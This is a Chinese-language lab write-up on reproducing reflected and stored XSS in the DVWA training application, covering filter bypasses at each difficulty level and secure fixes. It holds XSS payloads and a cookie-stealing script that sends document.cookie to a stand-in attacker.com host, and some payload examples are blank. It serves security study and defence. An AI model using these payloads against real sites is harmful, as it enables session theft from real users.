






# XSS 跨站脚本（Cross-Site Scripting）漏洞复现

> 漏洞模块：DVWA Reflected XSS / Stored XSS
> 工具：浏览器、Burp Suite
> 难度等级：Low / Medium / High

---

## 一、漏洞概述

**原理**：服务端将用户输入未经转义直接输出到 HTML 页面，攻击者可注入恶意 JavaScript 代码，在受害者浏览器中执行。

**OWASP 分类**：A03:2021 - Injection（XSS 是注入漏洞的重要子类）

**危害**：
- 窃取用户 Cookie / Session
- 伪造用户操作（钓鱼、CSRF）
- 劫持浏览器（BeEF 框架）
- 篡改页面内容、植入广告

**分类**：
- **反射型 XSS（Reflected XSS）**：恶意脚本通过 URL 参数一次性传入，不持久化
- **存储型 XSS（Stored XSS）**：恶意脚本存入数据库，每次访问页面都触发，影响所有用户

**合规声明**：本文档所有 Payload 均在本地 DVWA 靶场复现，仅用于安全学习。



---

## 二、DVWA 反射型 XSS 四等级复现

### 2.1 Low 级别

#### 代码分析
`vulnerabilities/xss_r/source/low.php` 关键代码：
```php
$name = $_GET['name'];
echo '<pre>Hello ' . $name . '</pre>';
```

完全无过滤。

#### 复现步骤

1. 难度调至 **Low**，进入 **XSS (Reflected)** 模块
2. 在输入框输入：
   ```html
   <script>alert('XSS')</script>
   ```
3. 点击 Submit → **弹出 alert 弹窗** → 确认反射型 XSS 存在

#### 进阶 Payload（窃取 Cookie 原理演示）

```html
<script>
  var img = new Image();
  img.src = 'http://attacker.com/steal.php?cookie=' + document.cookie;
</script>
```

> 注意 真实攻击中需在攻击者服务器部署接收脚本，**本仓库不演示真实利用**。

#### 关键截图



---

### 2.2 Medium 级别

#### 防护机制
服务端使用 `str_replace()` 过滤字符串：
```php
$name = str_replace('<script>', '', $_GET['name']);
```

#### 绕过思路

**大小写绕过**：
```html
<ScRiPt>alert('XSS')</ScRiPt>
```

**嵌套绕过**（过滤递归不彻底）：
```html
<scr<script>ipt>alert('XSS')</scr<script>ipt>
```
服务端第一次过滤 `<script>` 后，剩下 `<script>alert('XSS')</script>`，被浏览器正常解析执行。

**使用其他事件标签**：
```html

```

#### 复现步骤

1. 难度调至 **Medium**
2. 输入 `<ScRiPt>alert(1)</ScRiPt>` 或 ``
3. 触发弹窗

#### 关键截图



---

### 2.3 High 级别

#### 防护机制
服务端使用正则匹配 `<script>` 完整标签：
```php
$name = preg_replace('/<script.*?>/i', '', $_GET['name']);
```

#### 绕过思路
完全避开 `<script>` 标签，使用其他 HTML 标签的事件属性：

```html

<svg onload=alert('XSS')>
<body onload=alert('XSS')>
<a href="javascript:alert('XSS')">click</a>
```

#### 复现步骤

1. 难度调至 **High**
2. 输入 `` → 触发弹窗

#### 关键截图



---

### 2.4 Impossible 级别（安全实现）

```php
$name = htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
echo '<pre>Hello ' . $name . '</pre>';
```

**安全设计要点**：
- ✓ `htmlspecialchars()` 转义 `< > " ' &` 等 HTML 特殊字符
- ✓ ENT_QUOTES 标志同时转义单引号和双引号
- ✓ 显式指定 UTF-8 编码

---

## 三、DVWA 存储型 XSS 四等级复现

### 3.1 Low 级别

#### 代码分析
`vulnerabilities/xss_s/source/low.php` 在用户留言存入数据库时未过滤：
```php
$message = $_POST['mtxMessage'];
$name = $_POST['txtName'];

// 直接拼接 SQL 插入
$query = "INSERT INTO guestbook (comment, name) VALUES ('$message', '$name');";

// 显示时直接输出
echo "<div class='comment'>$message</div>";
```

#### 复现步骤

1. 难度调至 **Low**，进入 **XSS (Stored)** 模块
2. 在 Name 输入 `<script>alert('Stored XSS')</script>`，Message 输入任意
3. 点击 Submit → 弹窗 + **后续访问该页面都会触发弹窗**

#### 关键截图



**危害**：所有访问该页面的用户都会执行恶意脚本，**影响范围远大于反射型 XSS**。

---

### 3.2 Medium 级别

#### 防护机制
- `txtName` 字段使用 `str_replace()` 过滤 `<script>`
- `mtxMessage` 字段使用 `htmlspecialchars()` 转义（Message 相对安全）

#### 绕过思路
绕过 `name` 字段的过滤，使用其他标签：

```html

```

或大小写绕过：`sCrIpT` + 嵌套。

#### 复现步骤

1. 难度调至 **Medium**
2. Name 字段输入 ``
3. Message 字段任意
4. 提交 → 弹窗触发

---

### 3.3 High 级别

#### 防护机制
`txtName` 字段使用正则过滤所有 `<script>` 标签。

#### 绕过思路
与其他字段组合绕过：Message 字段虽然转义，但若后端显示 Name 时未做严格过滤（实际 DVWA High 仍对 Name 做正则过滤），需要寻找其他注入点。

**DVWA High 存储型 XSS 实际绕过**：
- Name 字段正则严格过滤 → 无法直接 XSS
- **利用浏览器解析特性**：输入 `` 等非 script 标签

#### 关键截图



---

### 3.4 Impossible 级别（安全实现）

```php
$name = htmlspecialchars($_POST['txtName'], ENT_QUOTES, 'UTF-8');
$message = htmlspecialchars($_POST['mtxMessage'], ENT_QUOTES, 'UTF-8');
```

**安全设计要点**：
- ✓ 所有用户输入均 `htmlspecialchars()` 转义
- ✓ 数据库层做字段长度限制
- ✓ 输出时再次转义（即使数据库存储安全）

---

## 四、XSS 绕过技巧分类

| 绕过方式 | 示例 Payload | 适用场景 |
|---|---|---|
| 大小写 | `<ScRiPt>` | 大小写不敏感过滤 |
| 嵌套 | `<scr<script>ipt>` | 简单字符串替换 |
| 其他标签 | `` `<svg onload=>` | 正则过滤 `<script>` |
| 协议伪协议 | `javascript:alert()` | href / src 属性 |
| HTML 实体编码 | `&#60;script&#62;` | 实体解析场景 |
| 空格 / 换行 | `` | 过滤空格场景 |

---

## 五、加固建议

1. **输出编码（最关键）**：所有用户输入输出到 HTML / JavaScript / URL / CSS 前必须做对应编码
   - HTML 内容：`htmlspecialchars($str, ENT_QUOTES, 'UTF-8')`
   - JavaScript：`json_encode()` 或白名单
   - URL：`urlencode()`
   - CSS：严格白名单
2. **输入白名单**：如富文本编辑器使用 HTMLPurifier 做白名单清洗
3. **设置 HttpOnly Cookie**：即使 XSS 触发，也无法窃取 Cookie
4. **CSP 策略（Content Security Policy）**：限制页面可执行脚本来源
5. **不要直接 eval / document.write 用户输入**
6. **日志告警**：检测异常 JavaScript 请求、Cookie 被外部 IP 访问

---

## 六、参考

- OWASP XSS Prevention Cheat Sheet
- OWASP Top 10 2021 - A03 Injection
- HTMLPurifier 官方文档：<https://htmlpurifier.org/>
- Content Security Policy 规范：<https://www.w3.org/TR/CSP3/>